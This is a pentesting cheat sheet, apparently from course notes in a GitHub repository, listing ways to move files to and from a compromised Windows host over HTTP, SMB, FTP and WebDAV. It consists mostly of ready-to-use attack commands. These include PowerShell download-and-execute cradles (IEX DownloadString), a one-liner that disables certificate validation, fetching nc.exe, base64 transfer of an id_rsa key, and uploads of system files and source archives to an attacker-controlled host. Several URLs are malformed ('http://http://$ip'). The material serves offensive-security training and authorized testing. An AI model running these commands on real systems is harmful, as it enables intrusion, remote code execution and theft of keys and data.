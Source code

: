 ## Download
#### Net.WebClient 
```powershell
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFileAsync('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>') -UseBasicParsing

IEX(New-Object Net.WebClient).DownloadString('http://$ip')
(New-Object Net.WebClient).DownloadString('http://$ip') | IEX
(New-Object Net.WebClient).DownloadString('http://$ip') -UseBasicParsing| IEX
```

Possible issues and fixes:
1. Errors stemming from Internet Explorer in `Net.WebClient `can be fixed with                   `-UseBasicParsing`
2. Untrusted SSL Certificate issues can be fixed with the following:`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

####  Invoke-WebRequest
``` Powershell
iwr http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
curl http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
wget http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
```
#### SMB
```bash
impacket-smbserver share -smb2support $(pwd)/share
impacket-smbserver share -smb2support $(pwd)/share -user adot -password adot

net share share=C:\Users\Public\share /grant:Everyone,Full
```

```powershell
copy \\http://$ip\share\nc.exe
net use n: \\http://$ip\share /user:adot adot
```
#### FTP
```bash
python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://http://$ip/file.txt', 'C:\Users\Public\ftp-file.txt')
IEX(New-Object Net.WebClient).DownloadString('ftp://$ip')
```

```powershell
C:\htb> echo open http://$ip > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open http://$ip
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
##### Base64 Conversion
```bash
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("LS0tLS1..."))

Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## Upload
#### Web Uploads
```bash
python3 -m uploadserver
```
[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://$ip/PSUpload.ps1')
Invoke-FileUpload -Uri http://http://$ip:8000/upload -File C:\Windows\System32\drivers\etc\hosts


$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
#### WebDav (SMB restrictions)
```bash
wsgidav --host=0.0.0.0 --port=80 --root=$(pwd) --auth=anonymous 
```

```powershell
dir \\http://$ip\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\http://$ip\DavWWWRoot\
```
#### FTP
```bash
python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
#### PowerShell Base64 Encode & Decode
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

```bash
echo IyBDb3B5cmln... | base64 -d > hosts

md5sum hosts 
```


